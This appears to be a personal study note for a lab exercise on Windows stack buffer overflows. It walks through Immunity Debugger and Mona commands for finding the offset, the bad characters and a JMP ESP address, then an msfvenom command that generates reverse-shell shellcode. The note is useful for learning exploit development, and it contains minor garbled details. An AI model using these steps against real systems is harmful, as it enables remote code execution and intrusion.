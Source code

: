 <h2>Starting from setting up and environment with Mona.</h2>

<h3>SettingUp an Config with Mona.</h3>
<ul></ul>
<li>In the bottom of the Immunity Debugger, we need to set the Config for Mona so that we can be able to Analysis Bytearray later which may comes handy while finding bad chars.</li>
<em>!mona config -set workingfolder C:\mona\oscp\</em>
Now, we have set the Configuration to that folder so while comparing later with esp, we will have to take care of this.

<li>Keep the fuzzing going on and notice the Bytes at which it gets crashed???? :It is helpful while creating pattern:</li>
<li>Create a pattern with Pattern_create.rb -l CRASHEDBYTE which is probably inside metasploit-framework</li>
<li>We got the pattern now we need to insert it into exploit in order to Figure out it's OFFSET </li>
<li>We can either find offset via <em>!mona findmsp -distance CRASHEDBYTE</em> Or with Pattern_offset.rb -l CRASHEDBYTE -q ValueInEIP</li>
<li>Now we know the offset so put it inside the Exploit and we can also keep RTN as BBBB to reflect it in the Register.</li>
<li>Run the BADCHARS, (You can exclude \x00)and keep that payload to exploit in the the place of payload and set the Byte array for mona to <em>!mona bytearray -b "\x00" intially \x00. Remember we set the config at the begining? So the bytearray.bin is stored inside that config and we need that.</em></li>
<li>Watch out the MONA COMPARISON, and see the bad chars.</li>
<li>REPEAT: Iterate it while erasing the BadChars from the Exploit and Including the badchars in !mona bytearray, Remember that most of the time it's sequential and the early index is most of the times a bad chars. </li>
<li>COMPARE CODE: !mona compare -f c:\mona\oscp\bytearray.bin -a esp</li>
<li>Iterate above till we get the MonaComparison Status to Unmodified.</li>
<li>Call it either finding a JMP state or Return address, we can find it via</li>
<li><em>!mona jmp -r esp -cpb "x\00\xALLTHEBADCHARSYOUFOUND.</em></li>
<li>See the Log data results and keep one JMP Esp 0x00 Addresss for later use.</li>
<li>If the address is suppose, 0x1129AF, then there comes Big Endian and Little Endian so </li>
<li>Manage the exploit.py with Return Address in the rtn variable but in different format like this: "\xAF\x29\x11" probably as a LSB perspective right?</li>
<li>Now is the time to generate Payload so BADCHARS comes here to...</li>
<em>msfvenom -p windows/shell_riverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x00\xALLTHEBADCHARS" -f c or you can use py too</em>
<li>You get the shellcode now manipulate the Exploit payload with the Generated and make sure to use the string inside ("") if it's format c and in such a way that there should be, OFFSET, RETN, PADDING = "\x90" * 16 <u>No Operation because it's a bad practice to run the shellcode instantly so we are using No operation to skip for a while.</u></li>
<li>Leave the PostFix as it is or give something as it doesn't really matter.</li>
<li>You are good to go now. :wink:</li>

